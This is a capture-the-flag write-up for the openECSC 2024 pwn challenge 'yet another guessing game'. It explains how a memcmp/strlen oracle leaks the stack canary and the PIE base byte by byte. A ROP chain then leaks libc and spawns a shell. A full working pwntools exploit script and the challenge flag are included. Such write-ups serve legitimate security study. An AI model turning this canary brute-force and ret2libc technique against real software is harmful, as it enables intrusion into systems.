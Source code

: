 ```yaml
---
title: yet another guessing game
date: 2024-05-10T16:37:39+03:00
description: Writeup for yet another guessing game [openecsc_round2_2024s]
type: writeup
author: zenbassi
tags:
- pwn
---
```

___

## Challenge Description

The title says it all. Guess the secret!

nc yetanotherguessinggame.challs.open.ecsc2024.it 38010

## Intuition

We're dealing with a very simple binary with all protections enabled:
```
RELRO           STACK CANARY      NX            PIE
Full RELRO      Canary found      NX enabled    PIE enabled 
```
Reversing it doesn't take too long. It first opens `/dev/urandom` and reads 16 bytes of random data into a buffer. After that it runs a multi-step loop. Inside the loop, the player is asked to guess the random value, and the input is checked against the random value with `memcmp`. The player receives feedback based on the result of the `memcmp`. Regardless of the restul, the player is given the option to break out of the loop or loop again.

There are a few key observations:
1. The input from the user is received through a `read` call, which attempts to read 104 bytes into a buffer of 40 bytes. By providing more than 40 bytes of data, we cause a stack-based buffer overflow;
2. The check of equality between our value and the random value is done with `memcmp`, using the length of our buffer, calculated with `strlen`. This allows us to control how much data we're checking;
    ```c
    __n = strlen(buf_vuln);
    fd = memcmp(buf_vuln,buf_ok,__n);
    ```
3. We're allowed to run the loop again, **even if** we successfully _guess the secret_;

Using this information, we notice that a loop iteration can be used as an oracle for checking the correctness of the first byte in the secret. We can try all 255 possible values until we find the right value and then continue, using the same logic, with the next bytes. We can use this technique to guess upwards of 39 bytes from the stack, which include the CANARY and the return address of the function. As such, we bypass the CANARY, which allows us to override the return address. Furthermore, by leaking the return address, we're essentially leaking an address from the address space of the binary, which in turn enables us to find the PIE slide offset and bypass ASLR.

Leaking the PIE slide offset is necessary in order to continue the attack. We don't have a **one gadget** as part of the binary, so we also need a libc leak. We can overflow another 24 bytes past the return address, which is enough to build a small ROP chain. Using ROPgadget we find a `pop rid; ret` gadget, which we'll use to call `puts@plt` on an entry from the GOT.

```
0x0000000000001503 : pop rdi ; ret
```

By printing the address of a known function from the GOT table, we can get a libc leak, which we can then use to call `system`. But before that, we need to do some more ROPing and unfortunately there's not enough overflow material. What we can do instead is obtain the libc leak and then return back to the `game` function and redo the whole process again! After guessing the new CANARY, we continue with the second part of the attack. The first part of the payload looks like this:

```py
payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(puts_got_sliced)
payload += p64(puts_sliced)
payload += p64(game_sliced)
```

For the second part of the attack, we can just use the libc offset to find the address of the system function and use it to call `/bin/sh`. The payload looks like this. [libc.blukat](https://libc.blukat.me/) is a very useful tool for getting the relative offsets of functions or even the `/bin/sh` string from libc. Here is the second part of the payload

```py
payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(bin_sh)
payload += p64(ret) # use this to align the stack for system
payload += p64(system_sliced)
```

## Solution

Here is the full exploit:

```python
#! /usr/bin/env python3

from pwn import *

# p = process('./yet_another_guessing_game/build/yet_another_guessing_game')
# p = process(['./yet_another_guessing_game/libs/ld-linux-x86-64.so.2', \
#             './yet_another_guessing_game/build/yet_another_guessing_game'], \
#             env={"LD_PRELOAD": './yet_another_guessing_game/libs/libc.so.6'})

p = remote('yetanotherguessinggame.challs.open.ecsc2024.it', 38010)

def runda(payload, act=b'y'):
    p.recvuntil(b'et!\n')
    p.send(payload)
    re = p.recvline()
    ret = None
    if b'win' in re:
        ret = True
    else:
        ret = False
    p.recvline()
    p.send(act)
    return ret


def bruteforce():
    runda(b'A' * 57)

    buf_ok = b'A' * 16
    canary = b'A'
    for _ in range(7):
        for b in range(1, 256):
            payload = buf_ok + canary + b.to_bytes() + b'\0'
            ret = runda(payload)
            if ret:
                canary += b.to_bytes()
                break

    assert(len(canary) == 8)

    rbp = b'B' * 8
    runda(b'A' * 56 + canary + rbp)

    ret_addr = b''
    for _ in range(7):
        for b in range(1, 256):
            payload = buf_ok + canary + rbp + ret_addr + b.to_bytes() + b'\0'
            ret = runda(payload)
            if ret:
                ret_addr += b.to_bytes()
                break

    ret_addr = ret_addr[::-1]
    # print("return address: ", hex(int.from_bytes(ret_addr)))

    # payload = buf_ok + canary + rbp + ret_addr

    canary = b'\0' + canary[1:]
    runda(b'A' * 56 + canary) # repair the canary with the 0 byte

    ret_offset = 0x101483
    pie_slice = int.from_bytes(ret_addr) - ret_offset
    # print(hex(pie_slice))

    return canary, pie_slice

canary, pie_slice = bruteforce()
game_sliced = 0x0010128f + pie_slice
puts_sliced = 0x001010e0 + pie_slice
puts_got_sliced = 0x00103f88 + pie_slice
pop_rdi_sliced = 0x001503 + 0x100000 + pie_slice
ret = 0x101a + 0x100000 + pie_slice

payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(puts_got_sliced)
payload += p64(puts_sliced)
payload += p64(game_sliced)
runda(payload, b'n')
p.recvline() # skip

puts_libc = p.recvline().rstrip() + b'\0\0'
# print(puts_libc)
puts_libc_addr = u64(puts_libc)
print(hex(puts_libc_addr))

# gdb.attach(p)
# pause()

canary, pie_slice = bruteforce()
# system_sliced = puts_libc_addr - 174656
system_sliced = puts_libc_addr - 205200
# bin_sh = puts_libc_addr + 0x1217b8
bin_sh = puts_libc_addr + 1245597

payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(system_sliced)

runda(payload, b'n')

# gdb.attach(p)
# pause()

p.recvline() # skip

p.interactive()
```

### Flag

`openECSC{y3t_an0th3r_br0ken_gu3ssing_g4me_<3.hidden}`
